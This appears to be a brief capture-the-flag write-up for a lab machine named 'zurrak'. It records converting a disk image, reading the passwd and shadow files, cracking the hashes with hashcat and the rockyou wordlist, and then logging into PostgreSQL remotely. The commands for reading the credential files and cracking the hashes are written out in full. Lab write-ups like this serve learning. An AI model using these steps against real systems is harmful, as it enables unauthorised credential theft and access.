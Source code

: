 ![5d1dbb79e46c003e0f5344bf5c2c9df8.png](../_resources/5d1dbb79e46c003e0f5344bf5c2c9df8-3.png)

> 1.  Transfer all the files. Install QEMU & Autopsy.
>     
> 2.  convert vmdk to raw-disk using qemu: **qemu-img.exe convert zurrak.old.vmdk -p -O raw zurrak-converted.raw**
>     
> 3.  Inspect the drive. I wen't for the passwd/shadow file and tried to crack it. With success! found the password for the postgres account and managed to remotely connect to the database.
>     
> 
> <ins>Commands used:</ins>  
> **unshadow passwd shadow > linux-hashes.txt**  
> **hashcat -m 1800 linux-hashes.txt /base/dbase/wordlist/password/rockyou.txt**  
> **psql -U postgres -p 5432 -h zurrak.htb**
> 
> <ins>COMMANDS TO NAVIGATE PSQL  
> \\dt  
> \\dit  
> \\l  
> </ins>
